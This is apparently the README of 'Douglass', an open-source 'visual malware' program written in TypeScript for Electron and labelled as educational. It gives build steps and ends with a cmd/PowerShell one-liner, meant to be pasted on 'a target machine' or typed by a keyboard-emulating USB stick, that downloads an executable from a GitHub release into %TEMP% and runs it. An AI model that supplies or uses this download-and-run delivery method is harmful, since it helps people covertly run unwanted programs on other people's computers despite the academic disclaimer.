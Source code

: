 # Douglass
Simple visual malware developed for education purposes.

This program is written in Typescript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This malware is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`
2) Run `npm run start`

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `douglass.exe`

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Electron-Builder](https://www.electron.build/).
4) Run `electron-builder --win portable`.
5) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.
- `Say` - Used to tts.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Douglass/releases/download/1.0/douglass.exe" -outfile "d.exe"
d.exe
exit
```